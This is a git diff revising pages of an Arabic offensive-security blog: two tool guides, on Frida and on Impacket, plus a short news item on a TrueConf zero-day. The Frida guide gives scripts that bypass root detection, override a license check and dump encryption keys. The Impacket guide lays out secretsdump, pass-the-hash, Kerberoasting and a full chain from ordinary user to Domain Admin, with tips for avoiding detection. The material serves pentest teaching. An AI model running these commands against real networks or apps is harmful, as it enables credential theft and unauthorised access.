

📰 2026-04-01 · خبر + 3 مقالات

diff --git a/_blogs/2026-04-01-frida-dynamic-analysis.md b/_blogs/2026-04-01-frida-dynamic-analysis.md
@@ -1,109 +1,120 @@
 ---
 layout: blog
-title: "Frida: أداة التحليل الديناميكي التي تعيد تعريف فحص التطبيقات في بيئات الـ Runtime"
-date: 2026-04-01T04:48:06Z
+title: "Frida: أداة التحليل الديناميكي لاختراق واختبار التطبيقات على أنظمة التشغيل المختلفة"
+date: 2026-04-01T06:26:41Z
 category: "أداة"
-excerpt: "في عالم Offensive Security، التحليل الثابت وحده لا يكفي. Frida تمنحك القدرة على التلاعب بسلوك التطبيقات أثناء التشغيل، استخراج البيانات الحساسة، وتجاوز آليات الحماية دون الحاجة لإعادة ترجمة الكود. هذه الأداة أصبحت معياراً أساسياً لكل من يعمل في فحص الثغرات واختبار الاختراق."
-read_time: 7
+excerpt: "Frida تمثل نقلة نوعية في مجال Dynamic Instrumentation، حيث تتيح لك التحكم الكامل بسلوك التطبيقات أثناء التشغيل. سواء كنت تختبر أمان تطبيق Android أو تحلل Binary على Windows، فإن Frida تمنحك القدرة على Hook الدوال وتعديل السلوك دون إعادة الترجمة. هذه المقالة تستعرض كيفية استخدام Frida عملياً في سيناريوهات Offensive Security الحقيقية."
+read_time: 8
 tags: ["Frida", "Dynamic Analysis", "Mobile Security", "Reverse Engineering", "Penetration Testing"]
 slug: "frida-dynamic-analysis"
 image: "/OffsecAR/assets/images/blogs/frida-dynamic-analysis.png"
 ---
 
-## لماذا Frida؟
+## ما هي Frida ولماذا تهم المختبر الأمني؟
 
-عندما تواجه تطبيقاً محمياً بآليات Anti-Debugging أو Root Detection، أو تحتاج لفهم سلوك Function معينة دون الغوص في الـ Assembly، تصبح Frida خيارك الأمثل. هذه الأداة مبنية على مبدأ Dynamic Instrumentation، حيث تسمح لك بحقن JavaScript Code داخل Process قيد التشغيل.
+Frida هي إطار عمل مفتوح المصدر لـ Dynamic Instrumentation، تسمح لك بحقن JavaScript في عمليات تعمل على iOS وAndroid وWindows وmacOS وLinux. القوة الحقيقية لـ Frida تكمن في قدرتها على تعديل سلوك التطبيقات في الوقت الفعلي دون الحاجة للشيفرة المصدرية أو إعادة التصنيف.
 
-القوة الحقيقية لـ Frida تكمن في مرونتها. تعمل على Android وiOS وWindows وLinux وmacOS، وتدعم لغات برمجة متعددة. يمكنك استخدامها لـ:
+على عكس أدوات Static Analysis، تتيح لك Frida رؤية ما يحدث فعلياً أثناء التنفيذ. يمكنك اعتراض المكالمات الدالية، تعديل القيم المُرجعة، استخراج البيانات من الذاكرة، وحتى تجاوز آليات الحماية مثل SSL Pinning وRoot Detection.
 
-- تتبع Function Calls وتعديل Return Values
-- استخراج Encryption Keys من الذاكرة
-- تجاوز SSL Pinning وفحص Network Traffic
-- تعديل سلوك التطبيق في الوقت الفعلي
+## بنية Frida وآلية العمل
 
-## البنية التقنية
+تتكون Frida من مكونين رئيسيين:
 
-Frida تتكون من مكونين أساسيين: الـ Server الذي يعمل على الجهاز المستهدف، والـ Client الذي تكتب من خلاله Scripts بلغة JavaScript أو Python. الـ Server يستخدم تقنية Code Injection لحقن Frida Agent داخل الـ Process، بينما الـ Client يتواصل معه عبر بروتوكول خاص.
+**Frida Server**: يعمل على الجهاز المستهدف (الهاتف، الجهاز الافتراضي، أو النظام المستهدف) ويكون مسؤولاً عن حقن الكود في العمليات.
 
-الاتصال يتم عبر USB أو Network، مما يعطيك مرونة في سيناريوهات العمل المختلفة. الأداة تستخدم V8 JavaScript Engine، نفس المحرك المستخدم في Chrome، مما يضمن أداءً عالياً.
+**Frida Client**: يعمل على جهازك ويتواصل مع Server عبر TCP. يمكنك استخدام Python API أو Command-line tools مثل `frida` و`frida-trace`.
 
-## السيناريوهات العملية
+عندما تستهدف عملية معينة، يقوم Frida بحقن مكتبة ديناميكية (Gadget) في مساحة عنوان العملية. بعدها، يمكنك تنفيذ JavaScript code يتفاعل مع Runtime الخاص بالتطبيق، سواء كان Dalvik/ART على Android أو Native code على منصات أخرى.
 
-### تجاوز Root Detection
+## سيناريو عملي: تجاوز Root Detection
 
-أغلب التطبيقات المصرفية تفحص وجود Root على الجهاز. مع Frida، يمكنك Hook الـ Function المسؤولة وإرجاع قيمة False:
+لنأخذ مثالاً واقعياً: تطبيق بنكي يكتشف Root ويرفض العمل. نريد تحديد الدالة المسؤولة وتعديل سلوكها.
+
+أولاً، نبحث عن الدوال المشبوهة:
+
+```bash
+frida-trace -U -f com.bank.app -i '*root*' -i '*Root*'
+```
+
+هذا الأمر يبدأ التطبيق ويعترض أي دالة تحتوي على كلمة "root". بعد تحديد الدالة المستهدفة، نكتب Script بسيط:
 
 ```javascript
 Java.perform(function() {
-    var RootDetection = Java.use("com.example.app.SecurityCheck");
+    var RootDetection = Java.use('com.bank.security.RootDetection');
     
     RootDetection.isRooted.implementation = function() {
-        console.log("[+] Root check bypassed");
-        return false;
+        console.log('[+] isRooted() called - Bypassing!');
+        return false; // دائماً نرجع false
     };
+    
+    console.log('[*] Root detection bypassed successfully');
 });
 ```
 
-### استخراج Encryption Keys
+نحفظ Script في ملف `bypass.js` ونشغله:
 
-لنفترض أن التطبيق يستخدم AES للتشفير. يمكنك اعتراض الـ Key عند إنشاء Cipher Object:
+```bash
+frida -U -f com.bank.app -l bypass.js --no-pause
+```
+
+الآن التطبيق يعتقد أن الجهاز غير مكسور الصلاحيات.
+
+## تقنيات متقدمة: Hooking Native Functions
+
+التطبيقات الحديثة تستخدم Native libraries (C/C++) لتنفيذ العمليات الحساسة. Frida تتيح لك Hook هذه الدوال أيضاً:
 
 ```javascript
-Java.perform(function() {
-    var SecretKeySpec = Java.use("javax.crypto.spec.SecretKeySpec");
-    
-    SecretKeySpec.$init.overload('[B', 'java.lang.String').implementation = function(key, algorithm) {
-        console.log("[+] AES Key: " + bytesToHex(key));
-        return this.$init(key, algorithm);
-    };
-    
-    function bytesToHex(bytes) {
-        var hex = [];
-        for(var i = 0; i < bytes.length; i++) {
-            hex.push(("0" + (bytes[i] & 0xFF).toString(16)).slice(-2));
-        }
-        return hex.join("");
+Interceptor.attach(Module.findExportByName('libnative.so', 'validateLicense'), {
+    onEnter: function(args) {
+        console.log('[+] validateLicense called');
+        console.log('[+] License key: ' + Memory.readUtf8String(args[0]));
+    },
+    onLeave: function(retval) {
+        console.log('[+] Original return value: ' + retval);
+        retval.replace(1); // نغير القيمة لـ 1 (valid)
+        console.log('[+] Modified to: ' + retval);
     }
 });
 ```
 
-### تتبع Network Requests
+هذا Script يعترض دالة `validateLicense` في مكتبة Native، يعرض المفتاح المُمرر لها، ثم يعدل القيمة المُرجعة لتكون دائماً صحيحة.
 
-لفهم كيف يتواصل التطبيق مع الـ Backend:
+## استخراج البيانات من الذاكرة
+
+أحد أقوى استخدامات Frida هو استخراج البيانات الحساسة من الذاكرة. مثلاً، لاستخراج مفاتيح التشفير:
 
 ```javascript
 Java.perform(function() {
-    var URL = Java.use("java.net.URL");
+    var SecretKeySpec = Java.use('javax.crypto.spec.SecretKeySpec');
     
-    URL.openConnection.overload().implementation = function() {
-        var connection = this.openConnection();
-        console.log("[+] Request to: " + this.toString());
-        return connection;
+    SecretKeySpec.$init.overload('[B', 'java.lang.String').implementation = function(key, algorithm) {
+        console.log('[+] Encryption key detected!');
+        console.log('[+] Algorithm: ' + algorithm);
+        console.log('[+] Key (hex): ' + bytesToHex(key));
+        
+        return this.$init(key, algorithm);
     };
 });
+
+function bytesToHex(bytes) {
+    var hex = '';
+    for(var i = 0; i < bytes.length; i++) {
+        hex += ('0' + (bytes[i] & 0xFF).toString(16)).slice(-2);
+    }
+    return hex;
+}
 ```
 
-## التكامل مع Workflow الاختبار
+## نصائح عملية للاستخدام الاحترافي
 
-Frida ليست أداة منعزلة. يمكن دمجها مع Burp Suite لفحص الـ Traffic، أو مع Objection (أداة مبنية على Frida) للحصول على Shell تفاعلي داخل التطبيق.
+**استخدم Frida-Server المناسب**: تأكد من تطابق إصدار Server مع Client وarchitecture الجهاز المستهدف (arm64، x86، إلخ).
 
-للاستخدام الاحترافي، أنصح بكتابة Scripts قابلة لإعادة الاستخدام وتنظيمها في Repository. استخدم TypeScript بدلاً من JavaScript للحصول على Type Safety، خاصة في المشاريع الكبيرة.
+**تعامل مع Anti-Frida**: بعض التطبيقات تكتشف وجود Frida عبر فحص Ports أو أسماء Processes. استخدم تقنيات مثل إعادة تسمية Server أو استخدام Frida Gadget المدمج.
 
-```bash
-# تثبيت Frida وأدواته
-pip install frida-tools
-npm install -g @frida/cli
+**استفد من Frida Codeshare**: مجتمع Frida يوفر Scripts جاهزة لسيناريوهات شائعة على https://codeshare.frida.re - لا حاجة لإعادة اختراع العجلة.
 
-# تشغيل Script على تطبيق معين
-frida -U -f com.example.app -l script.js --no-pause
-```
+**دمج Frida مع Burp Suite**: يمكنك استخدام Frida لتجاوز SSL Pinning ثم تحليل Traffic عبر Burp، وهو Workflow قياسي في Mobile Pentesting.
 
-## الحدود والتحديات
+**احترس من Detection**: التطبيقات الحساسة تستخدم آليات معقدة للكشف عن Instrumentation. فهم كيفية عمل هذه الآليات أساسي لتجاوزها بنجاح.
 
-رغم قوتها، Frida لها حدود. أولاً، العديد من التطبيقات الحديثة تحتوي على Anti-Frida Checks تكتشف وجودها. ثانياً، الـ Obfuscation القوي يجعل إيجاد الـ Functions المستهدفة أصعب. ثالثاً، بعض الـ Native Code المعقد يحتاج لفهم عميق بالـ ARM Assembly.
-
-الحل يكمن في استخدام تقنيات متقدمة مثل Frida Stalker لـ Code Tracing، أو الدمج مع أدوات Reverse Engineering أخرى مثل Ghidra. أيضاً، تعلم كيفية Patch الـ Anti-Frida Checks نفسها يصبح ضرورياً.
-
-## الخلاصة
-
-Frida غيّرت قواعد اللعبة في مجال Dynamic Analysis. من تجاوز الحمايات إلى استخراج البيانات الحساسة، الأداة توفر إمكانيات لا حدود لها. لكن القوة الحقيقية تأتي من فهم البنية الداخلية للتطبيقات والقدرة على كتابة Scripts فعّالة. استثمر الوقت في تعلم JavaScript وفهم Android/iOS Internals، وستجد Frida سلاحاً لا يُستهان به في ترسانتك الأمنية.
+Frida ليست مجرد أداة، بل منصة كاملة تفتح آفاقاً واسعة في Reverse Engineering وPentesting. إتقانها يتطلب فهماً عميقاً لـ Application Runtime وMemory Management، لكن العائد يستحق الاستثمار.

diff --git a/_blogs/2026-04-01-impacket-guide.md b/_blogs/2026-04-01-impacket-guide.md
@@ -1,122 +1,119 @@
 ---
 layout: blog
-title: "Impacket: السكاكين السويسرية للـ Red Team في هجمات Windows و Active Directory"
-date: 2026-04-01T05:09:31Z
+title: "Impacket: السكاكين السويسرية للـ Red Team - دليل شامل لاستغلال بروتوكولات Windows"
+date: 2026-04-01T06:24:56Z
 category: "أداة"
-excerpt: "في كل عملية Red Team ناجحة، تجد Impacket حاضرة. هذه المكتبة البرمجية ليست مجرد أداة، بل نظام بيئي متكامل لاستغلال بروتوكولات Windows. من الحصول على credentials إلى الـ lateral movement، Impacket تقدم أدوات قوية مكتوبة بـ Python لاختبار أمان Active Directory بفعالية."
+excerpt: "في عالم الـ Red Teaming، تبرز Impacket كمكتبة Python لا غنى عنها لكل مختص أمني. توفر هذه الأداة مجموعة ضخمة من الوظائف للتفاعل مع بروتوكولات Windows الشبكية. من استخراج الهاشات إلى تنفيذ الأوامر عن بُعد، تُعد Impacket الخيار الأول عندما يتعلق الأمر بـ Post-Exploitation في بيئات Active Directory."
 read_time: 8
-tags: ["Impacket", "Red Team", "Active Directory", "Penetration Testing", "Python"]
+tags: ["Impacket", "Red Team", "Active Directory", "Post Exploitation", "Python"]
 slug: "impacket-guide"
 image: "/OffsecAR/assets/images/blogs/impacket-guide.png"
 ---
 
 ## لماذا Impacket؟
 
-عندما تتحدث مع محترفي Offensive Security، ستجد Impacket في قائمة أدواتهم الأساسية. السبب بسيط: تمنحك وصولاً مباشراً لبروتوكولات Windows الحرجة دون الحاجة لتثبيت أدوات Windows الأصلية.
+عندما تحصل على موطئ قدم في شبكة Windows، تبدأ التحديات الحقيقية. تحتاج إلى التنقل، استخراج الأوثينتكيشن، والتحرك أفقيًا دون إثارة الشكوك. هنا يأتي دور Impacket.
 
-Impacket مكتبة Python توفر تطبيقات جاهزة لبروتوكولات مثل SMB، MSRPC، LDAP، و Kerberos. كتبها Core Security، وأصبحت المعيار الفعلي لأي عملية penetration testing على بيئات Windows.
+طُورت Impacket بواسطة SecureAuth وهي مكتبة Python تُنفذ بروتوكولات شبكية متعددة بطريقة نقية تمامًا. لا تعتمد على أي مكتبات Windows خارجية، ما يعني أنك تستطيع مهاجمة نظام Windows من جهاز Linux أو macOS بكل سهولة.
 
-الميزة الحقيقية؟ تعمل من Linux مباشرة. لا حاجة لـ Windows VM أو PowerShell remoting. فقط Python وفهم جيد لبنية Active Directory.
+القوة الحقيقية لـ Impacket تكمن في تغطيتها الشاملة: SMB، MSRPC، LDAP، Kerberos، وغيرها. كل بروتوكول تحتاجه للتحرك في بيئة Active Directory متوفر وجاهز للاستخدام.
 
-## الأدوات الأساسية وحالات الاستخدام
+## الأدوات الأساسية في الترسانة
 
-### psexec.py: التنفيذ البعيد الكلاسيكي
+### secretsdump.py: استخراج الكنوز
 
-أداة psexec الأصلية من Sysinternals معروفة، لكن نسخة Impacket أقوى وأكثر مرونة:
+أول ما يبحث عنه أي Red Teamer هو credentials. أداة secretsdump تتيح لك استخراج NTLM hashes، Kerberos keys، وحتى LSA secrets مباشرة من Domain Controller أو أي نظام Windows.
 
 ```bash
-# باستخدام credentials صريحة
-psexec.py DOMAIN/user:password@10.10.10.50
+# استخراج من Domain Controller عبر الشبكة
+secretsdump.py domain/user:password@dc01.target.local
 
-# باستخدام Pass-the-Hash
-psexec.py -hashes :NTHASH administrator@10.10.10.50
+# استخراج من NTDS.dit محفوظ محليًا
+secretsdump.py -ntds ntds.dit -system system.hive LOCAL
 
-# عبر Kerberos ticket
-psexec.py -k -no-pass administrator@DC01.domain.local
+# استخراج باستخدام Pass-the-Hash
+secretsdump.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 administrator@192.168.1.10
 ```
 
-تستخدم psexec.py الـ Service Control Manager لتشغيل أوامر. البديل الأخف؟ wmiexec.py الذي يعمل عبر WMI دون كتابة ملفات على الـ disk.
+الأداة تدعم عدة طرق للـ Authentication، من الـ Cleartext passwords إلى Kerberos tickets، ما يجعلها مرنة للغاية.
 
-### secretsdump.py: استخراج الـ Credentials
+### psexec.py وعائلته: التنفيذ عن بُعد
 
-الأداة الأهم في عمليات Post-Exploitation. تستخرج hashes من SAM، LSA secrets، وحتى NTDS.dit من Domain Controllers:
+مجموعة أدوات التنفيذ عن بُعد في Impacket متنوعة ولكل منها حالات استخدام محددة:
 
 ```bash
-# استخراج من جهاز محلي
-secretsdump.py DOMAIN/user:password@10.10.10.50
+# psexec: الكلاسيكي، يستخدم Service Control Manager
+psexec.py domain/admin:password@target.local
 
-# استخراج NTDS.dit من Domain Controller
-secretsdump.py -just-dc-ntlm DOMAIN/admin@DC01.domain.local
+# wmiexec: أقل ضجة، يستخدم WMI
+wmiexec.py domain/admin:password@target.local
 
-# استخراج كل شيء بما فيها Kerberos keys
-secretsdump.py -just-dc DOMAIN/admin@DC01.domain.local
+# smbexec: بديل آخر عبر SMB
+smbexec.py domain/admin:password@target.local
+
+# atexec: للتنفيذ عبر Task Scheduler
+atexec.py domain/admin:password@target.local "whoami"
 ```
 
-سترى NTLM hashes لكل مستخدم في الـ domain. هنا تبدأ عمليات Pass-the-Hash و Credential Stuffing الحقيقية.
+كل أداة تترك Artifacts مختلفة. wmiexec أكثر هدوءًا من psexec لأنه لا يكتب ملفات على القرص، بينما atexec مفيد لجدولة المهام.
 
-### GetNPUsers.py: اصطياد AS-REP Roasting
+## هجمات Kerberos المتقدمة
 
-بعض الحسابات لا تتطلب Kerberos pre-authentication. خطأ تكويني شائع يمكن استغلاله:
+### GetUserSPNs.py: Kerberoasting
+
+أحد أشهر هجمات Active Directory. تستخرج Service Tickets لحسابات الخدمة ثم تكسرها Offline:
 
 ```bash
-# البحث عن حسابات vulnerable بدون credentials
-GetNPUsers.py DOMAIN.local/ -dc-ip 10.10.10.50 -usersfile users.txt -format hashcat
+# البحث عن SPN واستخراج TGS
+GetUserSPNs.py domain/user:password -dc-ip 192.168.1.5 -request
 
-# مع credentials للاستعلام عبر LDAP
-GetNPUsers.py DOMAIN.local/user:password -dc-ip 10.10.10.50 -request
+# حفظ الهاشات مباشرة
+GetUserSPNs.py domain/user:password -dc-ip 192.168.1.5 -request -outputfile hashes.txt
+
+# ثم كسرها باستخدام hashcat
+hashcat -m 13100 hashes.txt wordlist.txt
 ```
 
-الـ hashes الناتجة يمكن crack-ها offline باستخدام hashcat. نسبة النجاح؟ عالية جداً مع سياسات passwords ضعيفة.
+### GetNPUsers.py: AS-REP Roasting
 
-### GetUserSPNs.py: Kerberoasting الفعّال
-
-حسابات الخدمات (Service Accounts) مع SPNs هدف ثمين. تذاكر Kerberos الخاصة بها قابلة للـ crack:
+استهداف الحسابات التي لا تتطلب Kerberos Pre-Authentication:
 
 ```bash
-# طلب TGS tickets لكل SPNs
-GetUserSPNs.py DOMAIN.local/user:password -dc-ip 10.10.10.50 -request
+# فحص قائمة مستخدمين
+GetNPUsers.py domain/ -usersfile users.txt -dc-ip 192.168.1.5 -format hashcat
 
-# حفظ في صيغة hashcat مباشرة
-GetUserSPNs.py DOMAIN.local/user:password -dc-ip 10.10.10.50 -request -outputfile kerberoast.txt
+# فحص دومين كامل (يتطلب credentials)
+GetNPUsers.py domain/user:password -dc-ip 192.168.1.5 -request
 ```
 
-حسابات الخدمات غالباً تملك صلاحيات عالية و passwords قديمة. استثمار الوقت في cracking هذه التذاكر يؤتي ثماره.
+## سيناريو عملي: من Zero إلى Domain Admin
 
-## سيناريو عملي: من User إلى Domain Admin
-
-لنفترض حصولك على credentials لمستخدم عادي:
+لنفترض أنك حصلت على credentials لمستخدم عادي. إليك سير عمل نموذجي:
 
 ```bash
-# 1. Enumeration: البحث عن SPNs
-GetUserSPNs.py CORP.local/jdoe:Password123 -dc-ip 192.168.1.10 -request
+# 1. استكشاف الدومين والبحث عن SPN
+GetUserSPNs.py CORP/user:pass -dc-ip 10.0.0.5 -request
 
-# 2. Crack service account hash
+# 2. كسر TGS الناتج والحصول على حساب خدمة
 hashcat -m 13100 service.hash rockyou.txt
 
-# 3. استخدام الحساب الجديد للحصول على secretsdump
-secretsdump.py CORP.local/svc_sql:CrackedPass@192.168.1.10
+# 3. استخدام حساب الخدمة لـ DCSync
+secretsdump.py CORP/svc_account:password@10.0.0.5 -just-dc-user Administrator
 
 # 4. Pass-the-Hash للـ Administrator
-psexec.py -hashes :ADMINHASH administrator@192.168.1.10
+psexec.py -hashes :aad3b435b51404eeaad3b435b51404ee administrator@10.0.0.5
 ```
 
-هذا المسار يحدث في عمليات حقيقية باستمرار. Impacket تسهّل كل خطوة.
+هذا المسار يوضح كيف تتكامل أدوات Impacket معًا لتشكيل Attack Chain متكاملة.
 
-## نصائح OPSEC وتجنب الكشف
+## نصائح للاستخدام الفعّال
 
-استخدام Impacket يترك آثاراً. بعض الممارسات لتقليل البصمة:
+**التخفي والـ OpSec**: wmiexec و dcomexec أقل إثارة للشبهات من psexec الذي يُنشئ خدمة جديدة. استخدم الأدوات المناسبة حسب مستوى المراقبة في البيئة المستهدفة.
 
-- **استخدم wmiexec.py بدلاً من psexec.py**: لا يكتب ملفات executable على الـ disk
-- **حذّر من Event IDs**: 4624 (Logon)، 4672 (Special Privileges)، و 5145 (Network Share Access)
-- **استخدم Kerberos بدلاً من NTLM** عندما ممكن: `export KRB5CCNAME=ticket.ccache`
-- **Rotate IPs والتوقيت**: لا تستخدم نفس الـ source باستمرار
+**إدارة الـ Tickets**: احتفظ بـ Kerberos tickets في ملفات منفصلة باستخدام `-k` flag. هذا يسمح لك بإعادة استخدامها دون الحاجة لـ credentials مرة أخرى.
 
-الـ EDR الحديثة تراقب SMB lateral movement بشكل مكثف. التنويع في التكتيكات ضروري.
+**التوثيق الكامل**: سجل كل أمر تنفذه. Impacket يولد بيانات كثيرة، والقدرة على إعادة تتبع خطواتك أمر حاسم في Engagements طويلة.
 
-## الخلاصة
+**الفهم العميق**: لا تستخدم الأدوات كـ Black Box. افهم البروتوكول الذي تستغله، الـ Artifacts التي تتركها، وكيف يمكن اكتشافك. هذا الفهم يفرق بين مهاجم ماهر ومستخدم Script Kiddie.
 
-Impacket ليست أداة واحدة، بل مجموعة أدوات متكاملة تغطي Attack Surface كامل لبيئات Windows. من Enumeration إلى Exploitation والـ Persistence، ستجد ما تحتاجه.
-
-الفهم العميق لـ Active Directory وبروتوكولاته شرط أساسي لاستخدام Impacket بفعالية. الأداة قوية، لكن المعرفة هي ما يحول commands بسيطة إلى تسلسل هجومي ناجح.
-
-في عملك القادم، قبل أن تبحث عن exploit معقد، راجع Impacket. غالباً، misconfiguration بسيط وأداة Impacket المناسبة كافيان للوصول لهدفك.
+Impacket ليست مجرد مجموعة أدوات، بل منصة كاملة لفهم واستغلال بروتوكولات Windows. إتقانها يضعك خطوات للأمام في أي Red Team engagement.

diff --git a/_posts/2026-04-01-offensec-2026-04-01.md b/_posts/2026-04-01-offensec-2026-04-01.md
@@ -1,8 +1,8 @@
 ---
 layout: post
-title: "ثغرة Zero-Day في TrueConf تُستغل لاستهداف شبكات حكومية في جنوب شرق آسيا"
-date: 2026-04-01T05:20:39Z
-category: "ثغرة حرجة"
+title: "استغلال ثغرة Zero-Day في برنامج TrueConf لاستهداف شبكات حكومية في جنوب شرق آسيا"
+date: 2026-04-01T06:24:09Z
+category: "تهديد متقدم"
 severity: "عالية"
 severity_en: "high"
 cve: "CVE-2026-3502"
@@ -11,10 +11,10 @@ source: "The Hacker News"
 source_url: "https://thehackernews.com/2026/03/trueconf-zero-day-exploited-in-attacks.html"
 tweet_url: ""
 image: "/assets/images/2026-04-01-post.png"
-hashtags: "#أمن_المعلومات #ZeroDay #ثغرات #الأمن_السيبراني #TrueChaos"
+hashtags: "#أمن_المعلومات #ZeroDay #TrueConf #APT #الأمن_السيبراني"
 ---
 
-رصد باحثون أمنيون حملة هجومية متقدمة تحمل اسم TrueChaos تستهدف شبكات حكومية في جنوب شرق آسيا. تعتمد الحملة على استغلال ثغرة zero-day في برنامج TrueConf لمؤتمرات الفيديو. الثغرة المصنفة CVE-2026-3502 بدرجة خطورة 7.8 تنبع من غياب آلية التحقق من سلامة التحديثات. يستطيع المهاجم توزيع تحديثات مُعدّلة خبيثة للمستخدمين دون اكتشافها. يُبرز هذا الهجوم خطورة سلسلة التوريد البرمجية في أدوات العمل عن بُعد. على المؤسسات مراجعة آليات التحديث والتحقق من مصادرها فوراً.
+كشف باحثون أمنيون عن حملة هجومية متطورة أُطلق عليها اسم TrueChaos تستهدف شبكات حكومية في جنوب شرق آسيا. تستغل الحملة ثغرة Zero-Day برقم CVE-2026-3502 في برنامج مؤتمرات الفيديو TrueConf. تكمن خطورة الثغرة في غياب آلية التحقق من سلامة التحديثات عند جلبها من الخادم. يتيح ذلك للمهاجمين اعتراض عملية التحديث وحقن كود خبيث يُنفَّذ على أجهزة الضحايا. حصلت الثغرة على تقييم CVSS يبلغ 7.8، مما يجعلها عالية الخطورة. يُظهر هذا الهجوم تحولاً في استهداف برمجيات الاتصال المؤسسي كنقطة دخول للشبكات الحساسة.
 
 ---
 
